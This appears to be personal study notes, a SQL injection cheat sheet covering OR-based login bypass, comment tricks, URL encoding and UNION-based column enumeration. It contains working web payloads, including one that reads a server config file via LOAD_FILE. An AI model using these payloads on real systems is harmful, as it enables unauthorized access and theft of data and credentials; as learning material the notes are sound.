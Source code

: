 ** note the last dash at the end of the commands are just to show that there is a space after the two --
### OR Injection
```sql
admin' or '1'='1 
admin' or '1'='1'-- -
```

### Comments
`--` or `#`
so login
```
admin'-- -
```
depending on the query you might need to close open paranthesis and other quotes

Tip: if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symbol.

### Union Injection
if you want to union 2 queries, the column numbers must be the same of both

we can add random data to ensure same column number
```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2, 3, 4 from passwords
```

to do the injection we need to find the number of columns first
```
' order by 1-- -
```
we increase the number from 1, 2, 3, until it returns an error. The final successful column is the real number of columns

alternatively we can do this:
```
' UNION select 1,2,3-- -
```
keep adding numbers at the back until it doesn't return an error

Then we can do an injection, don't inject it in the first column cuz its the id column that isn't printed in the webpage. 2 onwards should be safe
```sql
' UNION select 1,@@version,user(),4-- -
```


' UNION select 1,@@version,user(),LOAD_FILE('/var/www/html/config.php'), 5-- -